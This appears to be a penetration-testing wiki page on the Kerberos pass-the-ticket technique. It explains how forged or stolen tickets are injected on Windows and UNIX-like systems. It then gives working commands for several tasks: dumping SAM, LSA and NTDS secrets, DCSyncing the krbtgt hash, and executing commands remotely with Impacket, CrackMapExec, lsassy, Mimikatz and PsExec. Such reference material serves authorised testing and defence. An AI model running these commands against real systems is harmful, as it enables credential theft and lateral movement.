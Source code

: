 ```yaml
---
description: MITRE ATT&CK™ Sub-technique T1550.003
---
```


# Pass the ticket

## Theory

[Overpass-the-hash](overpass-the-hash.md), [silver ticket](silver-and-golden-tickets.md#silver-ticket) and [golden ticket](silver-and-golden-tickets.md#golden-ticket) attacks are used by attackers to obtain illegitimate tickets. A ticket \(TGT or service ticket, forged or not\) can then be used to authenticate to a system using Kerberos without knowing any password. This is called [Pass-the-ticket](pass-the-ticket.md).

## Practice

### Injecting the ticket

* On Windows systems, tools like [Mimikatz](https://github.com/gentilkiwi/mimikatz) and [Rubeus](https://github.com/GhostPack/Rubeus) inject the ticket in memory. Native Microsoft tools can then use the ticket just like usual.
* On UNIX-like systems, the path to the `.ccache` ticket to use has to be referenced in the environment variable `KRB5CCNAME`

{% tabs %}
{% tab title="UNIX-like" %}
Once a ticket is obtained/created, it needs to be referenced in the `KRB5CCNAME` environment variable for it to be used by others tools.

```bash
export KRB5CCNAME=$path_to_ticket.ccache
```
{% endtab %}

{% tab title="Windows" %}
The most simple way of injecting the ticket is to supply the `/ptt` flag directly to the command used to request/create a ticket. Both [mimikatz](https://github.com/GhostPack/Rubeus) and [Rubeus](https://github.com/GhostPack/Rubeus) accept this flag.

This can also be done manually with [mimikatz](https://github.com/GhostPack/Rubeus) or [Rubeus](https://github.com/GhostPack/Rubeus).

```bash
kerberos::ptt $ticket_kirbi_file
```

```bash
Rubeus.exe ptt /ticket:$ticket_kirbi_file
```

It is then possible to list the tickets in memory using the `klist` command.
{% endtab %}
{% endtabs %}

### Passing the ticket

* On Windows, once Kerberos tickets are injected, they can be used natively.
* On UNIX-like systems, once the `KRB5CCNAME` variable is exported, the ticket can be used by tools that support Kerberos authentication.

{% tabs %}
{% tab title="Credentials dumping" %}
The [Impacket](https://github.com/SecureAuthCorp/impacket) scripts like [secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) \(Python\) have the ability to remotely dump hashes and LSA secrets from a machine.

```bash
secretsdump.py -k $TARGET
```

[CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) \(Python\) has the ability to do it on a set of targets. The `bh_owned` has the ability to set targets as "owned" in [BloodHound](https://github.com/BloodHoundAD/BloodHound) \(see [dumping credentials from registry hives](../credentials/dumping/#windows-computer-registry-hives)\).

```bash
crackmapexec smb $TARGETS -k --sam
crackmapexec smb $TARGETS -k --lsa
crackmapexec smb $TARGETS -k --ntds
```

[Lsassy](https://github.com/Hackndo/lsassy) \(Python\) has the ability to do it with higher success probabilities as it offers multiple dumping methods. This tool can set targets as "owned" in [BloodHound](https://github.com/BloodHoundAD/BloodHound). It works in standalone but also as a [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) module \(see [dumping credentials from lsass process memory](../credentials/dumping/#windows-computer-lsass-exe)\).

```bash
crackmapexec smb $TARGETS -k -M lsassy
crackmapexec smb $TARGETS -k -M lsassy -o BLOODHOUND=True NEO4JUSER=neo4j NEO4JPASS=Somepassw0rd
lsassy -k $TARGETS
```

On Windows, once the ticket is injected, it will natively be used when accessing a service, for example with [Mimikatz](https://github.com/gentilkiwi/mimikatz) to extract the `krbtgt` hash.

```bash
lsadump::dcsync /dc:$DomainController /domain:$DOMAIN /user:krbtgt
```
{% endtab %}

{% tab title="Command execution" %}
Some [Impacket](https://github.com/SecureAuthCorp/impacket) scripts \(Python\) enable testers to execute commands on target systems with Kerberos support.

```bash
psexec.py -k 'DOMAIN/USER@TARGET'
smbexec.py -k 'DOMAIN/USER@TARGET'
wmiexec.py -k 'DOMAIN/USER@TARGET'
atexec.py -k 'DOMAIN/USER@TARGET'
dcomexec.py -k 'DOMAIN/USER@TARGET'
```

[CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) \(Python\) has the ability to do it on a set of targets

```bash
crackmapexec winrm $TARGETS -k -x whoami
crackmapexec smb $TARGETS -k -x whoami
```

On Windows, legitimate tools like the [sysinternals](https://docs.microsoft.com/en-us/sysinternals/) [PsExec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec) \([download](https://live.sysinternals.com/)\) can then be used to open a cmd using that ticket.

```bash
.\PsExec.exe -accepteula \\$TARGET cmd
```
{% endtab %}
{% endtabs %}

## Resources

